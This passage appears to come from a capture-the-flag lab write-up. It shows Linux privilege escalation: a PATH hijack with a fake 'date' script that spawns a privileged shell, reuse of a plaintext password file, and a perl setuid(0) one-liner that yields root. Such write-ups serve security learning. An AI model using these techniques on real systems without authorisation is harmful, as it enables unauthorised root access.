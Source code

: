The attack overview:
Create a malicious date file with desired command --> export to path and set run permission --> run file
```
mkdir date_ && cd date_
touch date
nano date
```
date:
```bash
#!/bin/bash 
/bin/bash -p
```
Then:
```bash
chmod +x date
export PATH=/home/rabbit/date:$PATH
```

At this point, we have user Hatter ID, but not GID. Before looking for any escalation methods, I cd'd over to Hatter's home directory to check for a user flag/useful hints:
```
cd /home/hatter
ls --> password.txt
```
This appeared to be Hatter's password, so I tried it:
```
su hatter --> password worked
```
Now, we have full access to the user Hatter. 

### Vertical PrivEsc --> root

Before going the automated route, I decided to see if I could find any privesc routes manually:

```
cd /

find . -perm /4000 --> nothing useful
find . -perm /2000 --> nothing useful 

find . -user hatter -perm /4000  .. /2000 --> nothing useful

cd /usr/bin 
ls -lah | grep hatter --> perl?
```
The last search returned a strange result for perl.
I searched for Perl in GTFOBins and found a few different methods for privesc. I tried:
```
sudo perl -e 'exec "/bin/sh";'

--> hatter is not in the sudoers file.  This incident will be reported.

```
and then:
```
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
This worked! 
```
id --> root
```
